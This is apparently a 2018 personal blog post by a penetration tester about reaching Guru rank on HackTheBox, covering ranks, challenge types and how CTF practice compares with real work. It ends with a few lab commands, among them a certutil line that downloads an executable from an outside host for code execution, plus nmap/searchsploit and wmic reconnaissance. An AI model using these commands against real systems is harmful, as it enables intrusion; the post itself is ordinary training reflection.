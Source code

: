 ```yaml
---
layout:     post
title:      "HackTheBox (HTB) thoughts as Guru Rank"
#subtitle:   "Pentesting"
date:       2018-08-02
author:     "Tech"
header-img: "img/htb_final_dark.png"
tags:
    - RedTeam
    - Pentesting
    - Programming
    - Linux
---
```


![](img/htb_final.png)

# HackTheBox (HTB) thoughts as Guru Rank :

Here are my random thoughts on HackTheBox, which will be known as HTB for the rest of the post.

##Background:
I completed the Offensive Security Certified Professional (OSCP) last year spring time. I shortly followed that by getting SecurityTube Linux Assembly Expert (SLAE), which started my prepration for Offensive Security Certified Expert (OSCE). During my SLAE course, I signed up for HTB as every other twitter post was about it. I solved two challenges and never logged back in. A few months go by and after drowning in OSCE prep, I needed a change of paste from living in shellcode all day. Under those circumstance, my official HTB journey began..

---

## Breaking Down HackTheBox

There are 7 ranks depending on completion of active machines and challenges:

- Noob >= 0%
- Script Kiddie > 5%
- Hacker > 20%
- Pro Hacker > 45%
- Elite Hacker > 70%
- Guru > 90% (My Rank)
- Omniscient = 100%

There are only 20 total machines that are active at one time, every week the oldest machine gets dropped and a new one gets added. There are a total of 57 challenges that cover the topics below:

- Reversing
- Crypto
- Stego
- Pwn
- Web
- Misc
- Forensics
- Mobile

---

## Omniscient?!

From start to end, my journey started with Noob rank (as everyone) and in a short three weeks ended with GURU rank. With that, I completed all 20/20 machines and 41 of the 57 challenges. I thought about going for omniscient, 16 challenges would only need to be completed.

I decided to move on from HTB at this point. Calculating my time, experience gain from the 16 left challenges and ROI on real life usefulness... Guru is alright with me.

I'm currently rank 60th place out of 50,000 registered members worldwide (as of JUNE 2018) & 6th Place for United States.

## My thoughts..

There's something that needs to be said, HTB vs the Real-World.

As a OSCP holder and a full time red team / penetration tester, some of the machines and challenges on HTB are out of scope to real life situations. It's awesome to learn new tricks and techniques as someone in the field, but none of this is going to help me on the daily really.

Someone on HTB once said:

> "That being said I wouldn't ever use a person's CTF History as an indicator of skill. It would be used for a willingness to learn outside of work hours which is probably more important."

These are not ALL going to be applicable in the real world but they are important to the creative thinking and other aspects of what pen-testing involves and therefore still worth your time to do them.

##Overall
This field were all in is everlearning. I believe HackTheBox is a great platform for all types of skill levels and even OSCP holders. They have a wide varity of machines for all levels of skill. I personally learn quite a few things and would like to leave some commands here..

```
 cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
 ```
 -- Getting code execution with certutil (used here to download file)

 ```
 nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
 ```
 -- Checks all results in Nmap's XML output with service version

 ```
 cmd.exe /c wmic service where started=true get name, startname
 ```
 -- List all started services only.
